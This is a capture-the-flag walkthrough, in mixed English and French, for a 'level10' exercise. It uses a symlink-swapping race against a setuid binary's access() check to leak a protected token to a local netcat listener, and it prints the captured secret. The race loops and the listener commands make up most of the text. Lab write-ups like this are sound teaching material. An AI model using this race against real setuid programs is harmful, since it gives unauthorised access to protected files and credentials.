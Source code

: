 As we've done in the previous exercises, we are starting by listing the files present in the repository:
```
ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

./level10 file host
	sends file to host if you have access to it
```

We can see that there's an executable. Looks like we have to understand what it's doing.
Let's hexdump the executable to understand what is going on.

```
hexdump -C level10
```

We can see that the program is connecting to an host on the port 6969 and that it seems to be using access too.
By reading the man, we know that there's a short time between the permission using access and time the answer is sent.
So we'll use this error to get the flag.

As we've previously done let's create a symlic between the token and an other file that we create.
```
chmod 777 .
touch hack

while true; do ln -sf hack tmp; ln -sf token tmp; done
```
Nous faisons pointer maintenant nos 2 fichiers vers le dossier tmp (ln -f autorise a faire diriger un lien symbolique vers un dossier)

```
while true; do ./level10 tmp 127.0.0.1; done
```

En parallele, nous allons donc envoyer ce dossier qui pointe vers le token dans le niveau 10.
La boucle while est necessaire afin de profiter du temps que access prend afin de verifier les permissions.

```
while true; do nc -l 6969; done
```
Enfin nous allon recuperer l'output du port 6969 comme trouve au debut.

```
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
```
